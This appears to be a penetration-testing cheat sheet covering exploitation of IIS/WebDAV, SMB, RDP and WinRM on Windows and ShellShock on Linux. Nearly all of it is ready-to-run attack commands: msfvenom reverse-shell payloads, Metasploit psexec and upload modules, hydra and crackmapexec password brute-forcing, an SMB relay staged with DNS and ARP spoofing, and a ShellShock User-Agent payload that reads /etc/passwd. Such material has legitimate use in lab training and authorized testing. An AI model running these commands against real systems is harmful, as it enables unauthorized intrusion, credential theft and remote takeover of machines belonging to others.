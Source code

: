# Exploitation

# Summary

- [Windows OS](#windows-os)
  - [IIS Server](#iis-server)
  - [SMB](#smb)
      - [SMB Relay Attack](#smb-relay-attack)
  - [RDP](#rdp)
  - [WinRM](#winrm)

- [Linux OS](#linux-os)
  - [ShellShock (CVE-2014-6271)](#shellshock-cve-2014-6271)



# Windows OS

## IIS Server

**Wonderful article**: https://medium.com/@ennoukhbadr/webdav-penetration-351d59ac9859

Supported **executable** file extensions :
- .asp
- .aspx
- .config
- .php

**Davtest** to check which extension can be executed on the server :
```bash
davtest -url 'http://<IP>/webdav/' -auth 'admin:password_123321'
```

**Cadaver** to connect, upload, remove, ... :
```bash
# Connect then use 'put' to upload a malicious file
cadaver http://<IP>/webdav/
```

Of course, we can use **Metasploit** : 
```bash
# For asp reverse shell :
use exploit/windows/iis/iis_webdav_upload_asp

# Set options :
set PATH /webdav/whatever.asp (IMPORTANT !)
set RHOSTS <IP>
set HttpUsername
set HttpPassword
```

### Microsoft FTP

If you can modify the website thanks to FTP, you can upload a `.asp` or `.aspx` file on the web server to gain a reverse shell.

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=1234 -f asp > shell.aspx
```

## SMB

Try to find valid credentials with bruteforcing `Administrator` account : 
```bash
# With Metasploit Module :
use auxiliary/scanner/smb/smb_login

set RHOSTS <IP>
set PASS_FILE /path/to/wordlist
set SMBUser Administrator
set STOP_ON_SUCCESS true
```

Then, create a malicious file (reverse shell) with **MSFvenom**: 
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.41.3 LPORT=1234 -f exe -o payload.exe
```

Upload your shell with **smbclient** and execute it with **psexec.py** :
```bash
psexec.py Administrator@10.2.20.249 "C:\Users\Administrator\Desktop\payload.exe"
```

You can also **pop a shell** with : 
```bash
# PSexec.py
psexec.py Administrator@10.2.20.249 cmd.exe

# Metasploit Module (Meterpreter Session !):
use exploit/windows/smb/psexec

set RHOSTS <IP>
set SMBUser Administrator
set SMBPass Password1 # You can also Pass The Hash !
```

### SMB Relay Attack

> An SMB relay attack is a type of network attack where an attacker
intercepts SMB (Server Message Block) traffic, manipulates it, and relays
it to a legitimate server to gain unauthorized access to resources or
perform malicious actions.

1. Configure SMB Relay Exploit :
```
msfconsole
use exploit/windows/smb/smb_relay
set SRVHOST <YOUR-IP>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <YOUR-IP>
set SMBHOST <TARGET>
exploit
```

2. Configure **dnsspoof** in order to redirect the victim to our Metasploit system every time there's an SMB connection to any host in the domain :
```
echo "<YOUR-IP> *.DOMAIN.TLD" > fake_dns.txt
```

3. Run **DnsSpoof** :
```
dnsspoof -i eth1 -f dns
```

4. Enable the IP forwarding : 
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

5. Start the **ARP Spoof attack** :
```
arpspoof -i eth1 -t 172.16.5.5 172.16.5.1
arpspoof -i eth1 -t 172.16.5.1 172.16.5.5
```

6. Wait for connections.


## RDP

Sometimes RDP doesn't run on the default port, so check :
```bash
use auxiliary/scanner/rdp/rdp_scanner 
```

- Bruteforce :
```bash
hydra -L Administrator -P /opt/rockyou.txt 10.2.16.41 rdp -v -V
```

- Connection : 
```bash
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>[:PORT]
```


## WinRM

- Bruteforce :
```bash
# Metasploit Module
use auxiliary/scanner/winrm/winrm_login

set RHOSTS <IP>
set PASS_FILE 
set USER_FILE
set VERBOSE true/false

# CrackMapExec :
crackmapexec winrm <IP> -u Administrator -p /opt/rockyou.txt
```

- Connect to the target :
```bash
# Evil-WinRM :
evil-winrm.rb -i 10.2.21.115 -u Administrator -p password

# Metasploit Module :
use exploit/windows/winrm/winrm_script_exec

set RHOSTS <IP>
set USERNAME
set PASSWORD
set FORCE_VBS true 
```


# Linux OS


## CVE-2014-6271 (ShellShock)

### Description

>Shellshock (CVE-2014-6271) is the name given to a family of vulnerabilities in
the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary
commands via Bash, consequently allowing the attacker to obtain remote
access to the target system via a reverse shell.

### Proof Of Concept

Links :
- https://beaglesecurity.com/blog/vulnerability/shellshock-bash-bug.html
- https://github.com/opsxcq/exploit-CVE-2014-6271


If you find a `.cgi` script on the web server, check if it is vulnerable to *ShellShock* with **NSE** :
```bash
nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" demo.ine.local
```

Then, inject your payload in the `User-Agent:` field :
```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```


You can also use **Metasploit** :
```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec

set RHOSTS <IP>
set TARGETURI /script.cgi
```


